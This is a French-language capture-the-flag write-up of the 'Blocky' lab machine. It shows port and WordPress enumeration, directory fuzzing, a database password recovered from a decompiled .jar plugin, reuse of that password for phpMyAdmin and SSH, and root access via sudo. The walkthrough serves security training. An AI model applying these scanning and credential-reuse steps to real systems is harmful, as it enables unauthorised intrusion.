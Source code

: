 # Blocky [Linux] Easy

# — 1.Enumeration —

## Nmap

`nmap -sS -A -sC -sV -p- 10.10.10.37`

```bash
21/tcp    open   ftp       ProFTPD 1.3.5a
22/tcp    open   ssh       OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp    open   http      Apache httpd 2.4.18 ((Ubuntu))
Apache/2.4.18 (Ubuntu)
WordPress 4.8
8192/tcp  closed sophos
25565/tcp open   minecraft Minecraft 1.11.2 (Protocol: 127, Message: A Minecraft Server, Users: 0/20)
```

Énumération du Wordpress :

`nmap -p- --script http-wordpress-enum --script-args check-latest=true,search-limit=10 10.10.10.37` 

```bash
80/tcp    open   http
| http-wordpress-enum: 
| Search limited to top 10 themes/plugins
|   plugins
|     akismet 3.3.2 (latest version:4.2.4)
|   themes
|_    twentyfifteen 1.8
```

### Wpscan

`root@kali# wpscan --url http://10.10.10.37 -e ap,t,tt,u | tee scans/wpscan`

## FFUF

```bash
ffuf -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.37/FUZZ           

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.37/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

# license, visit http://creativecommons.org/licenses/by-sa/3.0/  [Status: 200, Size: 52256, Words: 3306, Lines: 314]
# or send a letter to Creative Commons, 171 Second Street,  [Status: 200, Size: 52256, Words: 3306, Lines: 314]
# Suite 300, San Francisco, California, 94105, USA. [Status: 200, Size: 52256, Words: 3306, Lines: 314]
# Copyright 2007 James Fisher [Status: 200, Size: 52256, Words: 3306, Lines: 314]
# directory-list-2.3-medium.txt [Status: 200, Size: 52256, Words: 3306, Lines: 314]
#                       [Status: 200, Size: 52256, Words: 3306, Lines: 314]
#                       [Status: 200, Size: 52256, Words: 3306, Lines: 314]
# Attribution-Share Alike 3.0 License. To view a copy of this  [Status: 200, Size: 52256, Words: 3306, Lines: 314]
wiki                    [Status: 301, Size: 309, Words: 20, Lines: 10]
wp-content              [Status: 301, Size: 315, Words: 20, Lines: 10]
plugins                 [Status: 301, Size: 312, Words: 20, Lines: 10]
wp-includes             [Status: 301, Size: 316, Words: 20, Lines: 10]
javascript              [Status: 301, Size: 315, Words: 20, Lines: 10]
wp-admin                [Status: 301, Size: 313, Words: 20, Lines: 10]
phpmyadmin              [Status: 301, Size: 315, Words: 20, Lines: 10]
                        [Status: 200, Size: 52256, Words: 3306, Lines: 314]
server-status           [Status: 403, Size: 299, Words: 22, Lines: 12]
:: Progress: [220560/220560] :: Job [1/1] :: 3378 req/sec :: Duration: [0:01:16] :: Errors: 0 ::
```

[http://10.10.10.37/wiki/](http://10.10.10.37/wiki/) en construction

[http://10.10.10.37/](http://10.10.10.37/wiki/)wp-content rien

[http://10.10.10.37/plugins/](http://10.10.10.37/plugins/) deux fichier .jar

[http://10.10.10.37/wp-includes/](http://10.10.10.37/wp-includes/) Plein de fichier

[http://10.10.10.37/phpmyadmin/](http://10.10.10.37/phpmyadmin/) Accées à la BDD

## Plugins

Nous avons obtenu 2 fichier .jar sur [http://10.10.10.37/plugins](http://10.10.10.37/plugins) nous pouvons voir leurs code avec l’outil jd-gui 

```bash
public class BlockyCore {
  public String sqlHost = "localhost";
  public String sqlUser = "root";
  public String sqlPass = "8YsqfCTnvxAUeduzjNSXe22";

  public void onServerStart() {}
  public void onServerStop() {}
  public void onPlayerJoin() {
    sendMessage("TODO get username", "Welcome to the BlockyCraft!!!!!!!");
  }
  public void sendMessage(String username, String message) {}
}
```

## PHPmyAdmin

Nous pouvons maintenant accéder à la base de données du site phpmyadmin avec les identifiants trouvé dans l’un des fichier .jar `root:8YsqfCTnvxAUeduzjNSXe22`

On trouve en utilisateur de la BDD `notch` on à donc un utilisateur et un mot de passe si on essaye le ssh avec l’utilisateur “notch” et le mot de passe de la bdd nous pouvons nous connecter au pc à distance.

# — 2.Privilege Escalation —

`sudo -l`

Le mot de passe de notch est toujours le même que pour les autres services `8YsqfCTnvxAUeduzjNSXe22` on se rend compte que nous pouvons exécuter toutes les commandes utilisateurs en tant que root.

`sudo su`

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su
root@Blocky:/home/notch# cat /home/root.txt
cat: /home/root.txt: No such file or directory
root@Blocky:/home/notch# cat /root/root.txt
```
